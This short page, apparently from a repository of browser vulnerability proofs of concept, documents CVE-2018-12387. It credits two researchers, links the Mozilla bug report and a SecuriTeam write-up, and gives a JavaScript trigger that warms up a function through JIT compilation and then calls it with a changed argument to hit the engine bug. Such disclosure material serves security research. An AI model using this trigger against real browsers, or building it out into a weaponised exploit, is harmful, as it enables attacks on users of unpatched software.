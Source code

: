 # CVE-2018-12387

- Date: Oct 2018
- Credit: Bruno Keith and Niklas Baumstark

## PoC

```javascript
function f(o) {
    var a = [o];
    a.length = a[0];
    var useless = function () {}
    var sz = Array.prototype.push.call(a, 42, 43);
    (function () {
        sz;
    })(new Boolean(false));
}
for (var i = 0; i < 25000; i++) {
    f(1);
}
f(2);
```

## Reference

- [Issue](https://bugzilla.mozilla.org/show_bug.cgi?id=1493903)
- [SecuriTeam](https://blogs.securiteam.com/index.php/archives/3766)
